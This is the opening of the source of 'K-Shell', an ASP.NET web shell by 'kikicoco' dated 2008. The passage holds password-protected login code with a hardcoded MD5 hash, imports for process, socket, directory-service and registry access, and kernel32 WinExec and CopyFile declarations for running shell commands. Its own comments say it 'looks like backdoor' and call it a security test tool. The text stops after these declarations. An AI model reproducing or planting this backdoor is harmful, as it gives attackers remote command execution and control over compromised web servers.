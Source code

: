 # kikicoco
<%@ Page ContentType="text/html" validateRequest="false" aspcompat="true"%>
<%@ Import Namespace="System.IO" %>
<%@ import namespace="System.Diagnostics" %>
<%@ import namespace="System.Threading" %>
<%@ import namespace="System.Text" %>
<%@ import namespace="System.Security.Cryptography" %>
<%@ Import Namespace="System.Net.Sockets"%>
<%@ Assembly Name="System.DirectoryServices, Version=2.0.0.0, Culture=neutral, PublicKeyToken=B03F5F7F11D50A3A" %>
<%@ import Namespace="System.DirectoryServices" %>
<%@ import Namespace="Microsoft.Win32" %>
<script language="VB" runat="server">
Dim PASSWORD as string = "26d49f07ceebca39e994ca12a3b52f2d"   'Hash MD5 of password
'Here , change the default password "kikicoco" to yours
'----------------------------------------------------------------------
'-----------------      K-Shell by kikicoco VHS       -----------------
'-----------------    E-mail: duchaikhtn@gmail.com    -----------------
'-----------------      http://www.guru.net.vn      -------------------
'-----------------        http://vnsecurity.com       -----------------
'-----------------              Version 1.2          ------------------
'-----------------            Build (20080818)        -----------------
'----------- This shell base on WebAdmin2.0(beta) By lake2 ------------
'------------ and Asp.Net Security Analyzer by Dinis.cruz  ------------
'---------------------Thanks to : Hackerbinhphuoc  --------------------
'----------------------------------------------------------------------
'  Description:
'    1. This program run on ASP.NET environment,control the web directory
'    2. It looks like backdoor , but I wish you like it .
'    3. If you have some words to me , please send me a Email
'	 4. This is useful security test tool on windows. I hope that!
'------------
dim url,TEMP1,TEMP2,TITLE as string
Function GetMD5(ByVal strPlain As String) As String
 	Dim UE As UnicodeEncoding = New UnicodeEncoding
 	Dim HashValue As Byte()
 	Dim MessageBytes As Byte() = UE.GetBytes(strPlain)
 	Dim md5 As MD5 = New MD5CryptoServiceProvider
 	Dim strHex As String = ""
 	HashValue = md5.ComputeHash(MessageBytes)
	 For Each b As Byte In HashValue
   	strHex += String.Format("{0:x2}", b)
 	Next
 	Return strHex
End Function
Sub Login_click(sender As Object, E As EventArgs)
	if GetMD5(Textbox.Text)=PASSWORD then     
		session("kikicoco")=1
		session.Timeout=60
	else
		response.Write("<font color='red'>Your password is wrong! Maybe you press the ""Caps Lock"" buttom. Try again.</font><br>")
	end if
End Sub
'Run w32 shell
Declare Function WinExec Lib "kernel32" Alias "WinExec" (ByVal lpCmdLine As String, ByVal nCmdShow As Long) As Long
Declare Function CopyFile Lib "kernel32" Alias "CopyFileA" (ByVal lpExistingFileName As String, ByVal lpNewFileName As String, ByVal bFailIfExists As Long)  As Long
